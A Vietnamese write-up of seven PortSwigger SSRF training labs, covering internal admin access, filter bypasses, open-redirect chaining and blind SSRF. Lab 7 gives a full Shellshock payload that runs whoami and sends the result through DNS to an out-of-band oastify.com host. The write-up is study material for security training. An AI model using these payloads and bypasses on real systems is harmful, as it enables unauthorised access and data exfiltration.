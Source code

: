 # Lab 1: Basic SSRF against the local server
![image](https://hackmd.io/_uploads/rJcJPTWST.png)
Lab này có tính năng kiểm tra hàng tồn kho để lấy dữ liệu từ hệ thống nội bộ.
![image](https://hackmd.io/_uploads/BJddFaZrT.png)

Nó thực hiện điều này bằng cách chuyển đến back-end API endpoint thông qua front-end HTTP request.
![image](https://hackmd.io/_uploads/Hy4ctTZSa.png)
Hệ thống nhận `stockApi` là url (tin tưởng là local rồi) nên trả về số lượng hàng tồn kho như yêu cầu

Ta sẽ khai thác lỗ hổng này để truy cập `/admin` như sau
![image](https://hackmd.io/_uploads/Bk1rnpbHT.png)

Cuối cùng là xóa `carlos`
![image](https://hackmd.io/_uploads/By4j2pZS6.png)
![image](https://hackmd.io/_uploads/SyW626-HT.png)
![image](https://hackmd.io/_uploads/Byd6nTbHa.png)

# Lab 2: Basic SSRF against another back-end system
![image](https://hackmd.io/_uploads/B1mdeAbST.png)

Lab này chỉ cho phép truy cập thông qua IP riêng của nó
![image](https://hackmd.io/_uploads/SJgb-AbrT.png)

Lab đã cung cấp IP:`192.168.0.X`, port: `8080`. Giờ ta sẽ brute-force IP
![image](https://hackmd.io/_uploads/SJy7fAbHT.png)
![image](https://hackmd.io/_uploads/HkgBz0WST.png)

Status 200 và trả về admin, vậy ta tìm được IP là `192.168.0.193`
![image](https://hackmd.io/_uploads/SkhwzRWrT.png)
![image](https://hackmd.io/_uploads/Hky1mRZST.png)
![image](https://hackmd.io/_uploads/rkYWQAWSp.png)
![image](https://hackmd.io/_uploads/BJ17QCbHa.png)

# Lab 3: SSRF with blacklist-based input filter
![image](https://hackmd.io/_uploads/ry_br0-rT.png)

Hệ thống chặn một số hostname như `localhost, 127.0.0.1`
![image](https://hackmd.io/_uploads/rk6urCZS6.png)
![image](https://hackmd.io/_uploads/HkchB0-H6.png)

Bypass bằng cách thay thế bằng `127.1`
![image](https://hackmd.io/_uploads/BJny8CbBp.png)

Tuy nhiên, `/admin` cũng bị chặn 
![image](https://hackmd.io/_uploads/rJd5UAZS6.png)

Sửa thành `/Admin` thì truy cập thành công rùi
![image](https://hackmd.io/_uploads/SyK0UAWSa.png)
![image](https://hackmd.io/_uploads/HJqbvA-Sa.png)
![image](https://hackmd.io/_uploads/SJXMD0ZHp.png)

# Lab 4: SSRF with whitelist-based input filter
![image](https://hackmd.io/_uploads/BJqAPR-B6.png)

Lab này cũng bị lọc hostname, chỉ cho phép `stock.weliketoshop.net`
![image](https://hackmd.io/_uploads/rksDuRWBa.png)

Bypass:
- Sử dụng ký tự @
![image](https://hackmd.io/_uploads/B1ebcCWSp.png)
- Dùng # kết hợp với @
![image](https://hackmd.io/_uploads/BJZz5AZr6.png)
- Encode 2 lần # 
![image](https://hackmd.io/_uploads/Sy4E5RbBp.png)
![image](https://hackmd.io/_uploads/r1x85CZH6.png)
![image](https://hackmd.io/_uploads/BJaI5AbH6.png)

# Lab 5: SSRF with filter bypass via open redirection vulnerability
![image](https://hackmd.io/_uploads/Sy0RhAWB6.png)
![image](https://hackmd.io/_uploads/rkaZl1MBa.png)
Ở lab này, sau khi click vào next product để check stock của sản phẩm tiếp theo ta bắt được request
![image](https://hackmd.io/_uploads/HyQ1CRWHp.png)
Hệ thống được chuyển hướng đến `/product?productId=2`

Ta sẽ khai thác qua tham số `stockApi`
![image](https://hackmd.io/_uploads/S1_jg1frT.png)
Có vẻ hệ thống nghĩ chúng ta đang truyền cả 2 `stockApi` và `path` (path là tham số trong url)

Mã hóa `&` thì chuyển hướng đến product 2 thành công
![image](https://hackmd.io/_uploads/ryKObJGr6.png)

Giờ thì chuyển hướng đến `/admin` thui
![image](https://hackmd.io/_uploads/BkQi-kfH6.png)
![image](https://hackmd.io/_uploads/S1fZG1MSp.png)
![image](https://hackmd.io/_uploads/BJs-MJzST.png)

# Lab 6: Blind SSRF with out-of-band detection
![image](https://hackmd.io/_uploads/rkHbVJGr6.png)
Lab này chứa lỗ hổng blind SSRF.

Request khi xem product 1
![image](https://hackmd.io/_uploads/ByVYSyGST.png)
Header `Referer` chứa URL của trang được truy cập trước khi chúng ta truy cập đến `/product?productId=1`

Thay đổi giá trị header `Referer` thành địa chỉ tới domain Burp Collaborator.
![image](https://hackmd.io/_uploads/Sy53IyfH6.png)
DNS lookup thành công do đó tại header `Referer` có khả năng bị tấn công SSRF.
![image](https://hackmd.io/_uploads/B1eGePyMHT.png)

# Lab 7: Blind SSRF with Shellshock exploitation
![image](https://hackmd.io/_uploads/BJzGD1GHT.png)
- Web sử dụng phần mềm phân tích tìm nạp URL được chỉ định trong header Referer
- Server nội bộ `192.168.0.X`, port `8080`dễ bị Shellshock tấn công
- Mục tiêu lab
    - Tìm server nội bộ
    - Payload shellshock để lấy tên hệ điều hành user

Sử dụng Collaborator Everywhere để kiểm tra
![image](https://hackmd.io/_uploads/HJWh1efSp.png)
`User-Agent` và `Referer` dễ bị tấn công

Cú pháp lệnh [shellshock](https://blog.cloudflare.com/inside-shellshock/) đối với `User-Agent`
```
() { ignored;};arbitrary command
```
Payload:
```
() { ignored;};/usr/bin/nslookup $(whoami).4kpu4owshnnq4ir8voacea1w4nagy6mv.oastify.com
```
Ta phải brute-force địa chỉ IP nữa
![image](https://hackmd.io/_uploads/SJrIgxMrp.png)
![image](https://hackmd.io/_uploads/BkuwlgzST.png)

Xảy xa DNS lookup và nhận được OS user name `peter-rCO0tv`
![image](https://hackmd.io/_uploads/BJxpleMra.png)

Submit
![image](https://hackmd.io/_uploads/B1N4WlMH6.png)


